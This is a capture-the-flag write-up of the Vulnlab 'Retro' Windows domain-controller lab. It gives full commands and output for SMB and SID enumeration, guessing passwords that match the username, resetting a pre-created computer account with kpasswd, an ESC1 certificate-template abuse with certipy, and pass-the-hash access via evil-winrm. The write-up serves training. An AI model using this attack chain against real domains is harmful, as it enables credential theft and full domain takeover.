





| Machine Name | Difficulty | Date Started | Date Completed |
| ------------ | ---------- | ------------ | -------------- |
| Retro        | Easy       | 16/12/2024   | 19/12/2024     |
*Vulnlab.com* 

---

**Learning Points:**  

- Don’t always stick to one tool (e.g., `smbmap` didn’t output anything, but `smbclient` worked).  
- Learned that we can use `impacket-lookupsid` to brute force SIDs and gather usernames.  
- Use the password as the username as well before attempting brute force.  
- If you encounter a `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT` error and it’s a pre-created computer account, use `kpasswd` to reset it and proceed.  
- We can use tools like `certipy` or `certipy-ad` for ADCS attacks, such as finding vulnerable templates and exploiting them **when we have a valid credential pair**.  

---

Attack Path : 

- Conducted Nmap scans (full port, full script, and UDP) to discover open services.  
- Used `smbclient` to enumerate SMB shares and identified the `Trainees` share.  
- Found and downloaded `Important.txt` from the `Trainees` share.  
- Discovered the `trainee` user's password was the same as the username using `crackmapexec`.  
- Logged into the `notes` SMB share with the `trainee` credentials and downloaded `Todo.txt`.  
- Identified pre-created computer accounts and confirmed valid credentials.  
- Used AD CS tool `certipy` to exploit a vulnerable template  (ESC1) and obtain the administrator certificate.  
- Extracted the administrator's hash using the certificate and used `evil-winrm` with pass-the-hash to gain root access.  

---

**Activity Log:**  
- Started conducting full Nmap port scans, full script scans, and UDP scans.  
- Used `smbmap` to enumerate SMB shares available using a null session but didn’t find anything.  
- Used `smbclient` to list shares.  
- Enumerated the `Trainees` share and found an `Important.txt` file, which was downloaded to Falcon.  
- Performed a brute-force attack on the `trainee` user using `crackmapexec`.  
- Found that the password for the user `trainee` was the same as the username.  
- Logged into the `notes` SMB share and found a new `Todo.txt` file, which was also downloaded to Falcon.  
- Discovered pre-created computer accounts.  
- Used `crackmapexec` with the username `BANKING$` and the password `banking`, resulting in a `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT` error.  
- Attempted to brute-force the users' passwords using `crackmapexec` but failed.  
- Tried using `kpasswd` to change the password of the user `BANKING$` but failed.  
- Reset the machine.  
- After resetting the machine and trying again, it worked (likely because the account was locked due to previous brute-force attempts).  
- Confirmed that the password was changed using `crackmapexec`.  
- Saw a hint from a writeup to check AD CS and referred to the [AD-Attack-Mindmap](https://github.com/esidate/pentesting-active-directory) in the "Valid Credentials" section for the relevant commands.  
- The first attempt to get the administrator certificate failed due to a size issue.  
- The second attempt succeeded, and the administrator certificate was obtained, allowing the request of the administrator's hash.  
- Used `evil-winrm` with pass-the-hash to gain access and retrieve the root flag.  

---

### Enumeration

*Nmap full port scan :*
```
# Nmap 7.94SVN scan initiated Sun Dec 15 14:18:23 2024 as: nmap -sC -sV -oA nmap_all -Pn -p- 10.10.66.32
Nmap scan report for 10.10.66.32
Host is up (0.19s latency).
Not shown: 65513 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-15 19:24:26Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.retro.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.retro.vl
| Not valid before: 2024-12-15T19:05:19
|_Not valid after:  2025-12-15T19:05:19
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.retro.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.retro.vl
| Not valid before: 2024-12-15T19:05:19
|_Not valid after:  2025-12-15T19:05:19
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.retro.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.retro.vl
| Not valid before: 2024-12-15T19:05:19
|_Not valid after:  2025-12-15T19:05:19
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC.retro.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.retro.vl
| Not valid before: 2024-12-15T19:05:19
|_Not valid after:  2025-12-15T19:05:19
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-12-15T19:25:56+00:00; -2s from scanner time.
| ssl-cert: Subject: commonName=DC.retro.vl
| Not valid before: 2024-12-14T19:14:04
|_Not valid after:  2025-06-15T19:14:04
| rdp-ntlm-info: 
|   Target_Name: RETRO
|   NetBIOS_Domain_Name: RETRO
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: retro.vl
|   DNS_Computer_Name: DC.retro.vl
|   DNS_Tree_Name: retro.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-12-15T19:25:17+00:00
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49672/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49684/tcp open  msrpc         Microsoft Windows RPC
49702/tcp open  msrpc         Microsoft Windows RPC
49706/tcp open  msrpc         Microsoft Windows RPC
49719/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: -1s, deviation: 0s, median: -2s
| smb2-time: 
|   date: 2024-12-15T19:25:19
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec 15 14:26:01 2024 -- 1 IP address (1 host up) scanned in 457.33 seconds
```

*Nmap full udp port scan :*
```
# Nmap 7.94SVN scan initiated Sun Dec 15 14:36:54 2024 as: nmap -sU -oA nmap_udp_full -p53,88,123,389 -sC -sV 10.10.66.32
Nmap scan report for retro.vl (10.10.66.32)
Host is up (0.19s latency).

PORT    STATE SERVICE      VERSION
53/udp  open  domain       (generic dns response: SERVFAIL)
| fingerprint-strings: 
|   NBTStat: 
|_    CKAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
88/udp  open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-12-15 19:36:53Z)
123/udp open  ntp          NTP v3
| ntp-info: 
|_  
389/udp open  ldap         Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-UDP:V=7.94SVN%I=7%D=12/15%Time=675F2FEC%P=aarch64-unknown-linux-
SF:gnu%r(NBTStat,32,"\x80\xf0\x80\x82\0\x01\0\0\0\0\0\0\x20CKAAAAAAAAAAAAA
SF:AAAAAAAAAAAAAAAAA\0\0!\0\x01");
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 5s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec 15 14:37:33 2024 -- 1 IP address (1 host up) scanned in 38.84 seconds

```

Enumerated SMB shares using `smbmap` but found nothing.



Using `smbclient` provided us with some shares to enumerate.

```
┌──(destiny㉿falcon)-[~]
└─$ smbclient -L //10.10.66.32
Password for [WORKGROUP\destiny]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Notes           Disk      
        SYSVOL          Disk      Logon server share 
        Trainees        Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.66.32 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

We used `crackmapexec` and confirmed that we had read-only access to the `trainees` share.

```
crackmapexec smb 10.10.66.32 -u "a" -p "" --shares
```



We found an `Important.txt` file inside the `Trainees` share.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro/smb]
└─$ smbclient //10.10.66.32/Trainees
Password for [WORKGROUP\destiny]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jul 23 17:58:43 2023
  ..                                DHS        0  Wed Jul 26 05:54:14 2023
  Important.txt                       A      288  Sun Jul 23 18:00:13 2023

                6261499 blocks of size 4096. 2259592 blocks available
smb: \> 
```

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro/smb]
└─$ cat Important.txt                       
Dear Trainees,

I know that some of you seemed to struggle with remembering strong and unique passwords.
So we decided to bundle every one of you up into one account.
Stop bothering us. Please. We have other stuff to do than resetting your password every day.

Regards

The Admins
```

We used `impacket-lookupsid` and discovered the usernames of the machines through SID brute-forcing.

```
┌──(destiny㉿falcon)-[~]
└─$ impacket-lookupsid anonymous@10.10.66.32 -no-pass
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Brute forcing SIDs at 10.10.66.32
[*] StringBinding ncacn_np:10.10.66.32[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-2983547755-698260136-4283918172
498: RETRO\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: RETRO\Administrator (SidTypeUser)
501: RETRO\Guest (SidTypeUser)
502: RETRO\krbtgt (SidTypeUser)
512: RETRO\Domain Admins (SidTypeGroup)
513: RETRO\Domain Users (SidTypeGroup)
514: RETRO\Domain Guests (SidTypeGroup)
515: RETRO\Domain Computers (SidTypeGroup)
516: RETRO\Domain Controllers (SidTypeGroup)
517: RETRO\Cert Publishers (SidTypeAlias)
518: RETRO\Schema Admins (SidTypeGroup)
519: RETRO\Enterprise Admins (SidTypeGroup)
520: RETRO\Group Policy Creator Owners (SidTypeGroup)
521: RETRO\Read-only Domain Controllers (SidTypeGroup)
522: RETRO\Cloneable Domain Controllers (SidTypeGroup)
525: RETRO\Protected Users (SidTypeGroup)
526: RETRO\Key Admins (SidTypeGroup)
527: RETRO\Enterprise Key Admins (SidTypeGroup)
553: RETRO\RAS and IAS Servers (SidTypeAlias)
571: RETRO\Allowed RODC Password Replication Group (SidTypeAlias)
572: RETRO\Denied RODC Password Replication Group (SidTypeAlias)
1000: RETRO\DC$ (SidTypeUser)
1101: RETRO\DnsAdmins (SidTypeAlias)
1102: RETRO\DnsUpdateProxy (SidTypeGroup)
1104: RETRO\trainee (SidTypeUser)
1106: RETRO\BANKING$ (SidTypeUser)
1107: RETRO\jburley (SidTypeUser)
1108: RETRO\HelpDesk (SidTypeGroup)
1109: RETRO\tblack (SidTypeUser)
```

*Cleaned command :*
```
┌──(destiny㉿falcon)-[~]
└─$ impacket-lookupsid anonymous@10.10.66.32 -no-pass | awk -F'\\\\| ' '/SidTypeUser/ {print $3}'

Administrator
Guest
krbtgt
DC$
trainee
BANKING$
jburley
tblack
```

We performed an SMB brute-force attack for the user `trainee` using `crackmapexec` and confirmed the credentials.

```
┌──(destiny㉿falcon)-[~]
└─$ crackmapexec smb 10.10.66.32 -u trainee -p trainee                           
SMB         10.10.66.32     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.66.32     445    DC               [+] retro.vl\trainee:trainee 
```

We checked the shares again using the user credentials and found that we now had access to multiple new shares.

```
┌──(destiny㉿falcon)-[~]
└─$ crackmapexec smb 10.10.66.32 -u "trainee" -p "trainee" --shares
```



Found a new note on the `Notes` share after logging into the SMB server.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro/smb]
└─$ smbclient -U trainee '//10.10.66.32/Notes'
Password for [WORKGROUP\trainee]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jul 23 18:03:16 2023
  ..                                DHS        0  Wed Jul 26 05:54:14 2023
  ToDo.txt                            A      248  Sun Jul 23 18:05:56 2023

                6261499 blocks of size 4096. 2893598 blocks available
```

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro/smb]
└─$ cat ToDo.txt 
Thomas,

after convincing the finance department to get rid of their ancienct banking software
it is finally time to clean up the mess they made. We should start with the pre created
computer account. That one is older than me.

Best
James
```

Since we saw the note 'pre-created computer account,' we used `crackmapexec` to verify if the username was the password itself.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro]
└─$ crackmapexec smb 10.10.87.50 -u BANKING$ -p banking
SMB         10.10.87.50     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.87.50     445    DC               [-] retro.vl\BANKING$:banking STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT
```



The password for this account is the same as the username. When trying to log in, it will show `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT`.

To use this account, we need to change the password of the user `BANKING$` using the `kpasswd` tool. Before using it, we must edit the `/etc/krb.conf` file by adding the following configuration.

```
[libdefaults]
    default_realm = RETRO.VL
    dns_lookup_realm = false
    ticket_lifetime = 24h
    renew_lifetime = 7d
    rdns = false
    kdc_timesync = 1
    ccache_type = 4
    forwardable = true
    proxiable = true

[realms]
    RETRO.VL = {
        kdc = DC.RETRO.VL
        admin_server = DC.RETRO.VL
    }

[domain_realm]
    .retro.vl = RETRO.VL
    retro.vl = RETRO.VL
```

We got the below error :

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro]
└─$ kpasswd BANKING$        
Password for BANKING$@RETRO.VL: 
kpasswd: Preauthentication failed getting initial ticket
```

After resetting the machine and trying again, it worked.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro]
└─$ kpasswd BANKING$        
Password for BANKING$@RETRO.VL: 
Enter new password: 
Enter it again: 
Password changed.
```

We confirmed that the password was changed using `crackmapexec`.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro]
└─$ crackmapexec smb retro.vl -u BANKING$ -p password 
SMB         retro.vl        445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         retro.vl        445    DC               [+] retro.vl\BANKING$:password 
```

Saw a hint from a writeup to check AD CS, so we retrieved the command from the [AD-Attack-Mindmap](https://github.com/esidate/pentesting-active-directory) while reviewing the `valid credentials` obtained section.


*Doing the exact command as above failed :*
```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro/ADCS]
└─$ certipy-ad find -u BANKING$@RETRO.VL -p password -dc-ip 10.10.126.241
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[-] Got error: Failed to bind to LDAP. This is most likely because of an invalid username specified for logon
[-] Use -debug to print a stacktrace
.
.
Exception: Failed to bind to LDAP. This is most likely because of an invalid username specified for logon
```

*Corrected command with usernames inside quotes*

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro/ADCS]
└─$ certipy-ad find -u 'BANKING$'@RETRO.VL -p password -dc-ip 10.10.126.241    
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'retro-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'retro-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'retro-DC-CA' via RRP
[*] Got CA configuration for 'retro-DC-CA'
[*] Saved BloodHound data to '20241219001119_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20241219001119_Certipy.txt'
[*] Saved JSON output to '20241219001119_Certipy.json'
```

We used certipy to check vulneable certificates and was able to see that the certicifiacte template `RetroClients` is vulnearbal to an `ESC1` attack  :

```
┌──(destiny㉿falcon)-[~/…/Machines/Retro/ADCS/vulnerable]
└─$ certipy-ad find -u 'BANKING$'@RETRO.VL -p password -dc-ip 10.10.126.241 -stdout -vulnerable
```



Tried the attack from this [article](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adcs/esc1).

>**ESC1 - Linux - Machine Account**
>If a template has enrollment rights for domain computers, a machine account can be used to request a certificate to perform the attack. This requires having a hash or password value for a machine account or if the domains machine account quota is greater than zero, adding a new machine ourselves to complete the attack.

```
# Syntax
certipy req -u <Computer$> -p <Password> -dc-ip <DC-IP> -ca <CA> -template <Template> -upn <User> -target <CA-IP>

# Example
certipy req -u EvilComputer$ -p Password123! -dc-ip 10.10.10.100 -ca Security-SRV2019-CA -template ESC1 -upn administrator -target 10.10.10.14
```

Failed to obtain the certificate as the size was too low.

```
┌──(destiny㉿falcon)-[~/…/Machines/Retro/ADCS/vulnerable]
└─$ certipy-ad req -u 'BANKING$' -p password -dc-ip 10.10.126.241 -ca retro-DC-CA -template RetroClients -upn administrator -target 10.10.126.241
Certipy v4.8.2 - by Oliver Lyak (ly4k)

/usr/lib/python3/dist-packages/certipy/commands/req.py:459: SyntaxWarning: invalid escape sequence '\('
  "(0x[a-zA-Z0-9]+) \([-]?[0-9]+ ",
[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094811 - CERTSRV_E_KEY_LENGTH - The public key does not meet the minimum size required by the specified certificate template.
[*] Request ID is 8
Would you like to save the private key? (y/N) y
[*] Saved private key to 8.key
[-] Failed to request certificate
```

We increased the key size and were able to obtain the administrator's certificate.

```

┌──(destiny㉿falcon)-[~/…/Machines/Retro/ADCS/vulnerable]
└─$ certipy-ad req -u 'BANKING$' -p password -dc-ip 10.10.126.241 -ca retro-DC-CA -template RetroClients -upn administrator -target 10.10.126.241 -key-size 4096
Certipy v4.8.2 - by Oliver Lyak (ly4k)

/usr/lib/python3/dist-packages/certipy/commands/req.py:459: SyntaxWarning: invalid escape sequence '\('
  "(0x[a-zA-Z0-9]+) \([-]?[0-9]+ ",
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 10
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'

```

We were able to request the administrator's hash using the certificate, performed a pass-the-hash attack, logged into the machine, and obtained the root flag.

```

┌──(destiny㉿falcon)-[~/…/Machines/Retro/ADCS/vulnerable]
└─$ certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -domain 'retro.vl' -dc-ip 10.10.126.241
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@retro.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@retro.vl': aad3b435b5<SNIP>3b435b51404ee:252fac70<SNIP>dd009d4fd2cd0368389

┌──(destiny㉿falcon)-[~/…/Machines/Retro/ADCS/vulnerable]
└─$ evil-winrm -i retro.vl -u administrator -H 252fac70<SNIP>dd009d4fd2cd0368389 
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         7/25/2023  12:38 PM             36 root.txt
```

---
